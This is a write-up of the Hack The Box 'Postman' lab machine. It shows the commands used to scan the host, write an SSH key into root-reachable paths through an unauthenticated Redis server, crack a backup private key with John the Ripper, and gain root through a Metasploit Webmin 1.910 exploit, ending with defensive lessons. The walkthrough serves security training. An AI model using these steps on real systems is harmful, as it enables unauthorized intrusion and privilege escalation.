 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png
coverY: 0
---
```


# 🧠 Real-World Security Lessons from HTB’s Postman: Misconfig to Root📮

<div data-full-width="true"><figure><img src="../.gitbook/assets/ChatGPT Image May 26, 2025, 08_39_31 AM.png" alt=""><figcaption></figcaption></figure></div>

### 💡 Summary

Postman (Linux, Easy) brings together two beautiful classics: an unauthenticated Redis server and a Webmin 1.910 instance vulnerable to command injection. Add a dash of SSH key juggling, and we’ve got a shell delivery system.

### 🔍 Enumeration

#### ⚙️ Full Port Scan

```
nmap -n -p- -vvv --reason -oN nmap/01-full-port-scan.txt -iL target.txt
```

**Open Ports**

* 22 – SSH
* 80 – Apache 2.4.29
  *

      <figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* 6379 – Redis 4.0.9 (no auth)
* 10000 – MiniServ 1.910 (Webmin)



#### 🧠 Service Enumeration

```
nmap -sC -A -O -sV -oN nmap/03-detail-scan.txt -p22,80,6379,10000 -iL target.txt
```

Discovered:

* **Webmin** running on MiniServ 1.910
* **Redis** unauthenticated
* **SSH** banner suggests Ubuntu
* Apache server hosting a personal website

🔎 Googled the following:

* Redis 4.0.9 RCE possibilities&#x20;
  * [link](https://d4luc1.medium.com/unauthenticated-redis-server-leads-to-rce-6c175c75b293)
  * [<sub>https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419</sub>](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419)
* Webmin 1.910 exploit [Exploit-DB 46984](https://www.exploit-db.com/exploits/46984)



### 🛠️ Exploitation: Redis to Shell

**Generate SSH Key**

```
ssh-keygen -f postman
```

**Check for writable `.ssh` directory in Redis**

```
redis-cli -h 10.10.10.160
config set dir .ssh
config set dbfilename authorized_keys
```

**Inject Public Key**

```
(echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > pub_key.txt
cat pub_key.txt | redis-cli -h 10.10.10.160 -x set exploit
save
```

**Login via SSH as redis**

```
ssh -i postman redis@10.10.10.160
```

### 🚪 Lateral Movement

Found `id_rsa.bak` in `/opt`:

```
scp redis@10.10.10.160:/opt/id_rsa.bak .
ssh2john id_rsa.bak > hash.john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.john
```

🎯 **Password Cracked:** `computer2008`

* i tried to ssh into the box but i was not able to as Matt
  * so changed user using the redis shell

```
su Matt
```

### 📈 Privilege Escalation – Webmin RCE

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* When i try to login into web admin panel with Matt Creds i can get in
* metasploit has a module for exploit webadmin

```
linux/http/webmin_packageup_rce
```

* webadmin is running as root and hence after exploiting it get a shell as root

### 🧠 Key Learnings from HTB Postman

1. **Default Redis Misconfiguration Can Lead to Shell Access**\
   Misconfigured Redis instances without authentication allow attackers to write files like `authorized_keys`, leading to direct system access.
2. **Exposed Private Keys Are a Critical Risk**\
   Backup or misplaced private keys (`.bak` files) can be cracked and reused for lateral movement. Regular key audits and encryption hygiene are essential.
3. **Outdated Web Interfaces Like Webmin Pose Privilege Escalation Risks**\
   Webmin v1.910 contains a known RCE vulnerability, allowing remote root access via command injection. Patch management is non-negotiable.
4. **Credential Reuse Enables Account Traversal**\
   Reusing passwords across services (e.g., Redis to Webmin) facilitated lateral movement and elevation of privileges.
5. **Misconfigurations Chain into Full Compromise**\
   No single point of failure — rather, a chain of small missteps (open Redis, leaked key, outdated Webmin) led to complete root compromise.



{% embed url="https://www.hackthebox.com/achievement/machine/409699/215" %}
